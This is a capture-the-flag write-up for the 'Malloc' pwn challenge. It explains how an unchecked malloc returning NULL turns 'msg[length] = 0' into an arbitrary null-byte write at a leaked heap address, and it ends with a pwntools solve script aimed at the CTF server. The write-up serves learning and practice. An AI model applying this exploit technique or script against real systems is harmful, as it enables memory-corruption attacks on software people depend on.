

# Malloc

Category: Pwn

Points: 400

Solves: 2

> Can you somehow get the flag? Have fun!
>
> ```
> nc challs.sieberrsec.tech 1470
> ```

The exploit for this challenge was really simple (you could do it by hand) but it's quite difficult to find, which is probably why there were only 2 solves during the CTF.

```c
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

// cc malloc.c -o malloc -fstack-protector-all
int main(void)
{
	// Variables
	int *arr; // int pointer to an array
	char *msg; // C-string to store your message
	size_t length = 0;
	// Welcome message
	puts("Welcome to Sieberrsec CTF!");
	// Allocates 123456 bytes of memory
	arr = (int *)malloc(123456);
	// Sets first element of arr to 1
	arr[0] = 1;
	// Leaks the memory address of arr
	printf("Leak: %p\n", arr);
	// Gets length of your message
	printf("Length of your message: ");
	scanf("%lu", &length);
	// Allocates memory to store your message as a C-string
	// +1 is to store the null-byte that ends the string
	msg = malloc(length + 1);
	// Reads length bytes of input into msg
	printf("Enter your message: ");
	read(0, msg, length);
	// Null-byte to end the string
	msg[length] = 0;
	// Write length bytes from msg
	write(1, msg, length);
	// Your goal: somehow make arr[0] == 0
	if (arr[0] == 0) {
		system("cat flag");
	}
	return 0;
}
```

Of course, when I saw the challenge name, I thought it was going to be a really complex heap challenge, so I popped up gdb and started debugging the binary. 



Unfortunately, the chunk we can write to (0x0000555555577d10) is after the chunk we want to write to (0x5555555596b0) so we probably can't do a heap overflow. The code doesn't seem vulnerable to heap overflows anyway. There are no frees, so it's probably not a "traditional" heap challenge.

Next, I looked through the heap checklist (you can find it [here](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)):


Aha, the final rules is violated: the program does not check if malloc returns a valid pointer!

```c
msg = malloc(length + 1);

// Reads length bytes of input into msg
printf("Enter your message: ");
read(0, msg, length);

// Null-byte to end the string
msg[length] = 0;
```

Malloc returns a nullptr (pointer to 0x0) if it is unable to allocate enough memory. This can happen when we try to allocate a very large chunk. This can of course lead to null dereference bugs, but how does it lead to arbitrary write?? 

This actually occurs when we do `msg[length]=0`. If `msg = nullptr`, then `msg[x] = *x`, since C array indexing is just pointer math. It also helps that `msg` is a char pointer so we don't need to divide by the size of the array element.

So now that we have arbitrary write, where do we write to? This is where the leak comes in. If we are able to set the byte at the leaked address to 0, we can get the flag:

```c
// Allocates 123456 bytes of memory
arr = (int *)malloc(123456);
// Sets first element of arr to 1
arr[0] = 1;
// Leaks the memory address of arr
printf("Leak: %p\n", arr);

// more code here

// Your goal: somehow make arr[0] == 0
if (arr[0] == 0) {
	system("cat flag");
}
```

The `arr` array is located on the heap, which has one of the highest memory addresses of a program's memory, so if we set `length=leak` and try to `msg = malloc(length)` it's going to return a null pointer. Then, when `msg[length] = 0` is executed, what actually happens is `*leak = 0`. This allows us to pass the `arr[0] == 0` check and get the flag!

## Solve script

```python
from pwn import *

e = ELF("./malloc")
context.binary = e

def setup():
    #p = e.process()
    p = remote("challs.sieberrsec.tech", 1470)
    return p

if __name__ == '__main__':
    p = setup()
    p.recvline()
    p.recvuntil("0x")
    # Grab the leak and convert to decimal
    leak = p.recvline(keepends=False)
    leak = int(leak,16)
    p.sendline(str(leak))
    # Stupid scanf might greedily eat the newline we are going to send
    pause(5)
    p.sendline("")

    p.interactive()
```

## Comments

This was actually quite an interesting challenge, because despite its seeming complexity, the solution was simple and (sort of?) elegant. I was a bit concerned that `read`ing to a `nullptr` would cause some problems, but fortunately it didn't crash or anything.

Btw this website (where I got the checklist from) is a really good resource for learning heap:

- https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/
- https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/
